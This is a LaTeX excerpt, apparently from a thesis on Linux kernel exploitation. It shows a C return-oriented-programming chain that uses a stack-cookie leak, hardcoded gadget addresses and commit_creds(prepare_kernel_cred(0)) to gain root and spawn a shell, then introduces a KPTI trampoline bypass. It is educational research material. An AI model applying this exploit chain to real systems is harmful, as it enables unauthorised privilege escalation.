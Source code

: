 \documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
\begin{lstlisting}
void get_shell(void){
    puts("[*] Returned to user-land");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, did not get root\n", getuid());
        exit(-1);
    }
}
unsigned long user_rip = (unsigned long)get_shell;
unsigned long pop_RDI_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop RBX ; pop RBP ; ret
unsigned long mov_RDI_RAX_jne_pop2_ret = 0xffffffff8166fea3; // mov RDI, RAX ; jne 0xffffffff8166fe7a ; pop RBX ; pop RBP ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop RBP ; ret
unsigned long iretq = 0xffffffff8100c0d9;
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // RBX
    payload[off++] = 0x0; // R12
    payload[off++] = 0x0; // RBP
    payload[off++] = pop_RDI_ret; // return address
    payload[off++] = 0x0; // RDI <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE does not branch
    payload[off++] = 0x0; // dummy RBX
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = mov_RDI_RAX_jne_pop2_ret; // RDI <- RAX
    payload[off++] = 0x0; // dummy RBX
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy RBP
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    .....
}

\end{lstlisting}
\section{Adding KPTI}
\label{sect:trampoline}
As mentioned in \refToSubSection{KPTI} the user-space and kernel-space page tables are separate. In fact, in user mode, a page set includes user-space page tables and only a few kernel-space addresses.
There are several ways to bypass this mitigation, but the one we are going to look at is called a \emph{trampoline}.
Logically, if a system call returns correctly there must be a piece of code in the kernel that swaps the page tables to the user-land, so we will try to reuse that code for our purpose.
This piece of code is called trampoline and swaps the page tables, \texttt{swapgs}, and \texttt{iretq}.
\end{document}
